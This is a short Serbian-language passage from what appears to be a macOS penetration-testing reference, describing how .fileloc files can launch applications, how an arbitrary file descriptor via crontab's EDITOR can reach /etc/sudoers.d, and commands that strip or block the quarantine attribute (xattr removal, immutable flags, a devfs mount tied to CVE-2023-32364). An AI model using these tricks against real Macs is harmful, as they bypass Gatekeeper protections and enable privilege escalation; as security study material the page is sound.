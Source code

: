 Fajlovi sa **`.fileloc`** ekstenzijom mogu pokazivati na druge aplikacije ili binarne fajlove tako da kada se otvore, aplikacija/binarni fajl će biti izvršen.\
Primer:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>URL</key>
<string>file:///System/Applications/Calculator.app</string>
<key>URLPrefix</key>
<integer>0</integer>
</dict>
</plist>
```

## Proizvoljni FD

Ako možete naterati **proces da otvori datoteku ili fasciklu sa visokim privilegijama**, možete zloupotrebiti **`crontab`** da otvori datoteku u `/etc/sudoers.d` sa **`EDITOR=exploit.py`**, tako da će `exploit.py` dobiti FD ka datoteci unutar `/etc/sudoers` i zloupotrebiti je.

Na primer: [https://youtu.be/f1HA5QhLQ7Y?t=21098](https://youtu.be/f1HA5QhLQ7Y?t=21098)

## Izbegavajte trikove sa xattrs karantenom

### Uklonite je

```bash
xattr -d com.apple.quarantine /path/to/file_or_app
```

### uchg / uchange / uimmutable flag

Ako datoteka/folder ima ovaj nepromenljivi atribut, neće biti moguće staviti xattr na nju.

```bash
echo asd > /tmp/asd
chflags uchg /tmp/asd # "chflags uchange /tmp/asd" or "chflags uimmutable /tmp/asd"
xattr -w com.apple.quarantine "" /tmp/asd
xattr: [Errno 1] Operation not permitted: '/tmp/asd'

ls -lO /tmp/asd
# check the "uchg" in the output
```

### Montiranje defvfs

**Devfs** montiranje **ne podržava xattr**, više informacija na [**CVE-2023-32364**](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html)

```bash
mkdir /tmp/mnt
mount_devfs -o noowners none "/tmp/mnt"
chmod 777 /tmp/mnt
mkdir /tmp/mnt/lol
xattr -w com.apple.quarantine "" /tmp/mnt/lol
xattr: [Errno 1] Operation not permitted: '/tmp/mnt/lol'
```
